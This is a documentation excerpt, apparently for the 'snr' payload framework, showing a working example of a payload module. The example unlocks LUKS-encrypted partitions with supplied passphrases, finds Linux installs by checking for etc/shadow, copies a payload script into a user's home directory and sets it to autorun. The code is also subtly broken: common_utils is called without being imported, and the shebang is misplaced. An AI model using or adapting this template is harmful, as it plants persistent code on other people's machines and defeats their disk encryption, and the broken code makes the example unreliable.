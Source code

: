 Working Example
-------

After knowing all you need to know, let's give you a working example:

`my_payload/__init__.py`:

.. code-block:: python

    """
    Add a payload to a user's home directory
    """
    from snr.core.payload.payload import Context, Payload


    class MyPayload(Payload):
        AUTHORS = ("GlobularOne",)
        TARGET_OS_LIST = ("GNU/Linux",)
        INPUTS = (
            ("USERNAME", "", -1, "Username of the user to add the payload to their home directory "),
            ("PASSPHRASES", [], -1, "Passphrases to try for LUKS-encrypted partitions"),
        )

        def generate(self, ctx: Context) -> int:
            variables = self.get_self_variables()
            self.format_payload_and_write(ctx, variables)
            self.add_autorun(ctx)
            return 0

    payload = MyPayload()

`my_payload/payload.py`:

.. code-block:: python

    """
    my_payload Payload
    """
    #!/usr/bin/python3
    from snr.core.payload import entry_point, storage

    USERNAME = "@USERNAME@"
    PASSPHRASES = "@PASSPHRASES@"

    @entry_point.entry_point
    def main() -> None:
        block_info, root_ctx, our_device = storage.setup()
        common_utils.print_info("My_payload payload started")
        for part in storage.query_all_partitions(block_info):
            if storage.get_partition_root(part, block_info) == our_device:
                continue
            with storage.mount_partition(part, PASSPHRASES) as mounted_part:
                if (mounted_part.exists("usr/sbin/init")
                    or mounted_part.exists("usr/bin/init")) \
                        and mounted_part.exists("etc/shadow"):
                    mounted_part.copy("/root/payload.py", f"/home/{USERNAME}/payload.py")
        common_utils.print_ok("My_payload payload completed")
